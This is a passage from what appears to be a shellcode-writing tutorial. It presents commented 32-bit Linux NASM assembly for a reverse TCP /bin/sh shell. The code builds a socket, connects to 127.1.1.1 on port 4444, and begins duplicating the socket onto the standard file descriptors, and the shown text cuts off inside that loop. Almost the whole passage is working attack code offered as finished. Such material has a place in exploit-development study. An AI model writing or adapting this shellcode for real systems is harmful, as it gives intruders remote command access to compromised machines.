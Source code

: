 ### final complete shellcode

My complete, commented shellcode:
```nasm
; run reverse TCP /bin/sh and normal exit
; author @cocomelonc
; nasm -f elf32 -o rev.o rev.asm
; ld -m elf_i386 -o rev rev.o && ./rev
; 32-bit linux

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; create socket
  ; int socketcall(int call, unsigned long *args);
  push 0x66        ; sys_socketcall 102
  pop  eax         ; zero out eax
  push 0x1         ; sys_socket 0x1
  pop  ebx         ; zero out ebx
  xor  edx, edx    ; zero out edx

  ; int socket(int domain, int type, int protocol);
  push edx         ; protocol = IPPROTO_IP (0x0)
  push ebx         ; socket_type = SOCK_STREAM (0x1)
  push 0x2         ; socket_family = AF_INET (0x2)
  mov  ecx, esp    ; move stack pointer to ecx
  int  0x80        ; syscall (exec sys_socket)
  xchg edx, eax    ; save result (sockfd) for later usage

  ; int socketcall(int call, unsigned long *args);
  mov  al, 0x66    ; socketcall 102

  ; int connect(int sockfd, const struct sockaddr *addr,
  ; socklen_t addrlen);
  push 0x0101017f  ; sin_addr = 127.1.1.1 
                   ; (network byte order)
  push word 0x5c11 ; sin_port = 4444
  inc  ebx         ; ebx = 0x02
  push word bx     ; sin_family = AF_INET
  mov  ecx, esp    ; move stack pointer to sockaddr struct

  push 0x10        ; addrlen = 16
  push ecx         ; const struct sockaddr *addr
  push edx         ; sockfd
  mov  ecx, esp    ; move stack pointer to ecx (sockaddr_in struct)
  inc  ebx         ; sys_connect (0x3)
  int  0x80        ; syscall (exec sys_connect)

  ; int socketcall(int call, unsigned long *args);
  ; duplicate the file descriptor for
  ; the socket into stdin, stdout, and stderr
  ; dup2(sockfd, i); i = 1, 2, 3
  push 0x2         ; set counter to 2
  pop  ecx         ; zero to ecx (reset for newfd loop)
  xchg ebx, edx    ; save sockfd

dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
```